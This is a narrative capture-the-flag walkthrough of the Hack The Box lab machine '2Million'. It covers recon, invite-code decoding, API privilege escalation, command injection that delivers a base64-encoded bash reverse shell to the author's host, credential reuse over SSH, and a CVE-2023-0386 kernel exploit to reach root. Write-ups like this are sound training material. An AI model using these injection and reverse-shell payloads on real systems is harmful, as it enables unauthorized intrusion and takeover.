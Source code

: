 ```yaml
---
layout: post
title: "Hack The Box: 2Million - A Narrative Walkthrough"
date: 2025-07-03
tags: [htb, ctf, walkthrough, cybersecurity]
---
```


# Hack The Box: 2Million - A Narrative Walkthrough

Welcome to my walkthrough of the Hack The Box (HTB) machine: **2Million**. What began as a series of recon notes evolved into a story of curiosity, API exploration, privilege escalation, and ultimately, root access. Let's dive in.

---

## Reconnaissance & First Impressions

I began my journey with an Nmap scan:

```bash
nmap -A 10.10.11.221 -oN scan.initial
```

The scan revealed two open ports:

- **22/tcp**: OpenSSH 8.9p1
    
- **80/tcp**: HTTP (nginx)
    

Navigating to the IP in a browser resulted in a redirect to `http://2million.htb/`, which didn't resolve—until I added the following line to my `/etc/hosts` file:

```bash
10.10.11.221 2million.htb
```

Once added, the page loaded immediately. It looked like a promotional site for HTB. Scrolling down, I saw a call to action inviting me to join. I clicked.

![[Pasted image 20250701185331.png]]
![[Pasted image 20250701185430.png]]



I poked around and soon discovered some JavaScript references in the source:

```javascript
eval(function(p,a,c,k,e,d)...)
```

Yep: classic obfuscated JavaScript. I pasted the blob into [this online JS unpacker](https://matthewfl.com/unPacker.html) and got a cleaner view of the logic. Two functions stood out:

- `verifyInviteCode(code)`
- `makeInviteCode()`

We're here to generate, not verify—so I hit the relevant endpoint:

```bash
curl -X POST http://2million.htb/api/v1/invite/how/to/generate
```

Response:

```json
{"data":"Va beqre gb trarengr...","enctype":"ROT13"}
```

ROT13! A quick run through CyberChef decoded it to:

```
In order to generate the invite code, make a POST request to /api/v1/invite/generate
```

So I did.

### Getting the Invite Code

```bash
curl -X POST http://2million.htb/api/v1/invite/generate
```

Output:

```json
{"code":"MTc5RVotQzA0UkctOTI5V0YtOUhPNzA="}
```

That smelled like Base64, and decoding it gave me:

```
179EZ-C04RG-929WF-9HO70
```

Bingo—valid invite code.

## Exploring the API

After signing up with the invite code, I started poking the API using Burp Suite and curl. I noticed that while most routes redirected or denied access, `/api` and `/api/v1` returned `401 Unauthorized`.

So I grabbed my `PHPSESSID` from the browser session and tried again:

```bash
curl -i http://2million.htb/api \
  -H "Cookie: PHPSESSID=<session>"
```

Success! I was in.

Pretty soon I had a full list of exposed endpoints. Some were for regular users, but a few were under `/admin/`, including:

- `/api/v1/admin/auth`
- `/api/v1/admin/settings/update`
- `/api/v1/admin/vpn/generate`

Checking my privileges:

```bash
curl http://2million.htb/api/v1/user/auth -H "Cookie: PHPSESSID=<session>"
# {"loggedin":true, "username":"USER", "is_admin":0}
```

Not admin. Yet.

## Upgrading to Admin

I began experimenting with `PUT` requests to `/admin/settings/update`. After a few failed attempts, I hit gold:

```bash
curl -X PUT http://2million.htb/api/v1/admin/settings/update \
  -H "Cookie: PHPSESSID=<session>" \
  -H "Content-Type: application/json" \
  -d '{"is_admin":1, "email":"REDACTED"}'
```

Now I was admin. Confirmed via:

```bash
curl http://2million.htb/api/v1/admin/auth -H "Cookie: PHPSESSID=<session>"
# {"message":true}
```

## Remote Code Execution (RCE)

With admin status, I went after the `/admin/vpn/generate` endpoint, trying to inject commands. After some trial and error, this payload executed:

```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate \
  -H "Cookie: PHPSESSID=<session>" \
  -H "Content-Type: application/json" \
  -d '{"username":"USER; whoami;"}'
```

Response:

```
www-data
```

RCE achieved.

I wanted a full reverse shell. To avoid shell parsing issues, I base64-encoded the payload:

```bash
echo 'bash -i >& /dev/tcp/10.10.14.223/1234 0>&1' | base64
# YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMjMvMTIzNCAwPiYxCg==
```

Then sent it:

```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate \
  -H "Cookie: PHPSESSID=<session>" \
  -H "Content-Type: application/json" \
  -d '{"username":"USER; echo <base64> | base64 -d | bash;"}'
```

Meanwhile, my listener was waiting:

```bash
nc -lvp 1234
```

Shell obtained.

## User Flag

With access as `www-data`, I dug through the site files and found the `.env` file, which contained database credentials:

```
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

I noticed a local user `admin`, and tried the creds over SSH:

```bash
ssh admin@2million.htb
```

They worked!

```bash
cat user.txt
# deee6b52e5cefa369cd0f82238228e5b
```

## Privilege Escalation

Reading `/var/mail/admin`, I saw this note:

```
... upgrade the OS ... OverlayFS / FUSE looks nasty ...
```

Aha—CVE-2023-0386.

### Checking for Vulnerability

```bash
uname -r
# 5.15.70
lsmod | grep overlay
# overlay 151552  0
grep CONFIG_USER_NS /boot/config-$(uname -r)
# CONFIG_USER_NS=y
```

Vulnerable.

### Exploiting CVE-2023-0386

I grabbed the [exploit from GitHub](https://github.com/xkaneiki/CVE-2023-0386), zipped it, and transferred it via SCP:

```bash
zip -r cve.zip CVE-2023-0386
scp cve.zip admin@2million.htb:/tmp/t2
```

### Exploit Instructions

```bash
make all
./fuse ./ovlcap/lower ./gc
./exp
```

![[Pasted image 20250702183058.png]]
Root shell popped.

## Final Thoughts

This box was a great mix of web, API, and kernel exploitation. I appreciated how the narrative clues guided the flow from recon to root, while still requiring trial-and-error and careful reading. Always satisfying when both the logic _and_ the exploit align cleanly.

Thanks for reading!